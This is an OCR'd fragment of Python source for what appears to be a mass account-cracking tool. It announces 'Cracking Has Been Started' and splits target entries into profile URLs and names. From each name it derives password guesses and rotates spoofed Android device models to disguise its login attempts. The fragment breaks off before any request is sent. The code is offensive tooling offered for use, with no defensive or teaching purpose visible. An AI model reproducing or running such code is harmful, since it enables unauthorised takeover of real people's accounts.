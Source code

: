     else:
        exit(" please enter valid option ")
    os.system("clear")
    print(logo)
    print(' [•] Cracking Limit : '+str(len(idx)))
    print(" [•] Be Patience Cracking Has Been Started")
  #  print("To stop process press CTRL c")
    print("--------------------------------------------------")
    fax = ('|')
    def rana(user):
        global loop,idx
        r = requests.Session()
        user = user.strip()
        url, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except:
            last = first
        for px in pp:
            ##
            rao = random.choice(['CE7', 'CE7j', 'CE9h','KE6', 'KE6j', 'KF6','KE7','LC8','KD6a','LD7', 'LD7j', 'MZ-TECNO LD7','KF6', 'KF6j', 'KF6i', 'KF6k', 'PR651h', 'PR651', 'PR651E', 'KF6m', 'KF6h', 'KF6n'])
            brook=random.choice(['X38','C65023','C6506','C6502','D6503','D6502','Xperia Z2','D6633','D6603','D6643','D6616','D6708','D6563','F5122','F5121','E6633','E5553','E6533','E5333'])
            viv = random.choice(['2022','2023','2024','2027','2005','2005A','2002A','1955A','1962','1945A','1945T','1937','1938','1938CT','1938T','1940','1935','1936A','1933','1934A','1930A','1930T','1927','1928','1928A','1922A','1923A','1921','1921A','1921T','1915','1916','1908','1909','1832A','1832T','1831A','1831T','1824A','1824BA','1817','1818','1814','1815','1816','1727','1730','1718','1719','1723','1724','1725','1601','1606','F1403','2109','2111','2080A','2085A','2072A','2073A','2056A','2054A','2057A','2047','2037','2036','2038'])
            vmo = random.choice(['1902','1906','1901','1904','1938CT','1723','1940','1928A','1909'])
            rmx = random.choice(['RMX1941','RMX1945','RMX1921','RMX1901'])
            poc = random.choice(['SM-M045F', 'SM-M045F/DS','SM-T509','SM-A042F', 'SM-A042F/DS', 'SM-A042M', 'SM-A042M/DS','SM-A047F', 'SM-A047F/DS', 'SM-A047F/DSN','SM-A045F', 'SM-A045F/DS','SM-M136B', 'SM-M136B/DS',])